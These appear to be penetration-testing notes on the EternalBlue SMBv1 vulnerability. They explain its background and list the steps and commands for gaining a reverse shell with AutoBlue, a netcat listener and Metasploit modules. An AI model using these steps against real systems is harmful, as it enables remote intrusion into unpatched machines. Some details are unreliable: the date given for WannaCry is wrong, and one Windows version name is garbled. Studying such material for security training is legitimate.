 
### What is Eternal Blue ?

- EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.

- The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.

- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBV1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands. 

### Where was it used ?

- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27,2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.

- This vulnerability affects multiple versions of Windows:
	+ Windows Vista
	+ Windows 7
	+ Windows Server 2008 1
	+ Windows 8.1

### How can it be exploited ?

- Microsoft released a patch for the vulnerability in March, 2017, however, many users and companies have still not yet patched their systems.

- The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.

- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system. 

- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code. 

### Manual exploitation of `EternalBlue` with `AutoBlue`

https://github.com/3ndG4me/AutoBlue-MS17-010/

*Git Clone the repository and install the necessary requirements.*

**Steps-**

1. Generate the shellcode
	+ Provide executable permission to the bash script ``/shellcode/shell_prep.sh`
	+ Run the script  `./shell_prep.sh`
	+ Choose to either use `msfvenom` to generate a shellcode, or use our own.  
	+ Specify the required parameters, LPORT, LHOST etc. 
2. Set up a `netcat` listener on the LPORT we specified in the payload.
	- Run the command ``nc -lnvp <port>``
1. Begin exploitation
	+ Select the appropriate exploit Python file based on the version of Windows.
	+ Give the Python file executable permissions. ``chmod +x eternalblue_exploit7.py``
	+ Run the Python file 
	`python eternalblue_exploit7.py <target-ip> <shellcode-path> `
	- We should now get a command shell in the `netcat` listener.

### Automatic exploitation with `metasploit`

- Scan if the system is vulnerable to RCE using EternalBlue
```
use auxiliary/scanner/smb/smb_ms17_010
```
- Module to use for exploitation
```
use exploit/windows/smb/ms17_010_eternalblue
```
